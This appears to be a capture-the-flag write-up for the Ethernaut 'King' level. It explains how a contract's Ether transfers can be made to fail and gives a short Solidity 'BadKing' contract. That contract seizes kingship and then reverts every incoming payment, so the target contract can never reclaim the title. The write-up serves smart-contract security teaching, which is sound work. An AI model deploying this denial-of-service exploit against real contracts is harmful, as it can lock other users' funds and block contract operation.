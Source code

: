 # Day 9 - King

Every smart contract can have a simple Fallback function in order to receive Ethers from other contracts and wallets.
Each time your contract sends Ethers to another contract, you are depending on the other contract’s code to handle the transaction and determine the transaction’s success. **This means your valid transactions can arbitrarily fail.**

As the transaction sender, you are always susceptible to the following cases:

- **Loophole 1:** The receiving contract doesn’t have a payable fallback function, cannot receive Ethers, and will throw an error upon a payable request.

- **Loophole 2:** The receiving contract has a malicious payable fallback function that throws an exception and fails valid transactions.

- **Loophole 3:** The receiving contract has a malicious payable function that consumes a large amount of gas, which fails your transaction or over-consumes your gas limit.

## Solution

When you submit this `King.sol` instance back, Ethernaut will call this fallback function to regain Kingship. The key is to guarantee that Ethernaut’s transaction will fail, so you can remain King.

Notice inside this fallback function, there is a `king.transfer()`, which can fail if the current king is a malicious contract and refuses to withdraw.

Make sure to send at least 1 Ether to surpass the current prize

```js
pragma solidity ^0.6.0;
contract BadKing {
    event CallTheKing(bool success);

    // _victim is the contract address
    constructor(address payable _victim) public payable {
        (bool success,) = _victim.call{gas: 1000000, value: 1 ether}("");
        emit CallTheKing(success);
    }

    receive() external payable {
      revert("You failed! I am the king");
    }
}
```
